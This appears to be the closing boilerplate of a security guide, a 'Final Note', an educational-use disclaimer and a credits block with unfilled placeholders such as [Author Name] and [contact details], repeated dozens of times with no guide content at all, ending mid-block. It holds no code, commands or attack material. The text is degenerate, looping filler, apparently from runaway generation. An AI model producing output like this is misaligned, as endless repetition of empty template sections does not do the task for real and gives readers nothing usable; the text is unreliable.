# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been useful in your security journey.

---

# 🔒 End of Document

[!INFO] If you have any questions or need further assistance, please contact [contact details].

--- 

### 🌟 Credits
- Author: [Author Name]
- Date: [Date]

---

# 📄 Final Note

Thank you for reading this guide. We hope it has been informative and helpful in your security journey.

---

# 🔒 Security Disclaimer

This document is intended for educational purposes only. Unauthorized use of these techniques may be illegal and could result in severe penalties. Always obtain explicit permission before testing or exploiting any system or network.

--- 

### 🌟 Credits
- Author: [Author Name]
